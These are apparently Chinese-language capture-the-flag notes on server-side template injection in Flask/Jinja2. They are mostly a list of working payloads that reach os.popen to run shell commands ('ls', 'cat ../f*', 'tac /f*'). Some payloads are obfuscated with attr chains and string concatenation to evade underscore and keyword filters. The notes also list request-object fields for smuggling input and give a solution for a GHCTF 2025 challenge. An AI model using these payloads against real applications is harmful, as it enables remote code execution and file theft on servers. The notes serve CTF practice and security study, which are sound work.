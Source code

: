 ```
{{lipsum.__globals__['os']['popen']('ls').read()}}
```

`{% print %}` 能在 Flask 模板中输出内容，本质是利用了 Jinja2 允许在 `{% %}` 标签中执行 Python 表达式的特性，通过调用 Python 内置的 `print` 函数将内容输出到渲染结果中。

```
{{"".__class__.__bases__[0].__subclasses__()[199].__init__.__globals__['os'].popen("ls").read()}}
```

```
{{"".__class__.__base__.__subclasses__()[117].__init__.__globals__['builtins']['eval']("__import__.('os').popen('ls').read()")}}
```

```
{{url_for.__globals__.os.popen('ls').read()}}
```

```
{%print(lipsum|attr("_"+"_glo"+"bals_"+"_")|attr("_"+"_getitem_"+"_")("os")|attr("popen")("cat ../f*")|attr("read")())%}
```

- request方法绕过：

request在flask中可以访问基于 HTTP 请求传递的所有信息，这里的request并非python的函数，而是在flask内部的函数。

    request.args.key  #获取get传入的key的值
    
    request.form.key  #获取post传入参数(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
    
    reguest.values.key  #获取所有参数，如果get和post有同一个参数，post的参数会覆盖get
    
    request.cookies.key  #获取cookies传入参数
    
    request.headers.key  #获取请求头请求参数
    
    request.data  #获取post传入参数(Content-Type:a/b)
    
    request.json  #获取post传入json参数 (Content-Type: application/json)

payload参考https://www.nssctf.cn/note/set/14423

报错的HTML结构框架：
 Flask：蓝色调试页，显示完整堆栈
 Django：黄色调试页，显示详细设置
 Bottle：仅基础HTML+少量CSS

##### [GHCTF 2025]Message in a Bottle

这是个非常好的题，是python意义上的XSS。

```
{% set po=dict(po=a,p=b)|join%}
{% set a=(()|select|string|list)|attr(po)(24)%}
{%print(lipsum|attr(a+a+'glo'+'bals'+a+a)|attr(a+a+'ge'+'titem'+a+a)('o'+'s')|attr('po'+'pen')('tac /f*')|attr('read')())%}
```

用于下划线绕过
{% endraw %}